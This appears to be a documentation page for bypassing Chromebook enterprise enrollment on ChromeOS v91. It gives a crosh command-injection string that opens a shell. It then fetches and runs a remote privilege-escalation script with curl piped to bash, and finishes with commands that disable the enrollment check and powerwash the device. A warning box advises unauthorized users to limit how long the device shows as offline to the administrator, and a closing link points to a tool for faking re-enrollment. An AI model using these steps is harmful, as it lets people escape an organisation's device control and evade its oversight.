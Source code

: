 ```yaml
---
title: "v91 Unenrollment - Crosh"
pagination_next: fakemurk
pagination_prev: get-started
---
```


## Section I - Obtain Root Access

Inside of crosh, run the following command:

```sh
set_cellular_ppp \';bash;exit;\'
```

You should be dropped into a bash shell. If not, check the [troubleshooting guide](troubleshooting).

Now, run the following command to download and run the privilege escalation script:

```sh
cd ~/Downloads && curl -LOk https://raw.githubusercontent.com/luphoria/chromeos-rootable/master/privesc/privesc-91.sh && bash <(cat ~/Downloads/privesc-91.sh)
```

You should be dropped into a bash shell with a **red** prompt. If not, check the [troubleshooting guide](troubleshooting).

## Section II - Unenrolling and Powerwashing

Run the following command:

```sh
vpd -i RW_VPD -s check_enrollment=0
```

Now, we need to powerwash the device to fully unenroll. Run the following commands:

```sh
echo "fast safe" >/mnt/stateful_partition/factory_install_reset
reboot
```

After powerwashing, your Chromebook will behave like a personal device and will be completely unrestricted.

:::danger

Your administrator wil be able to see that your device is "offline", and you should spend as little time as possible in this state if you are not authorized to be following this tutorial.

:::

## Section III - Next Steps

:::tip[Next]

If you want to re-enroll but keep your Chromebook unrestricted, continue to [fakemurk](fakemurk)

...or you could just keep your device like this, and use it as a personal device. The choice is yours.

:::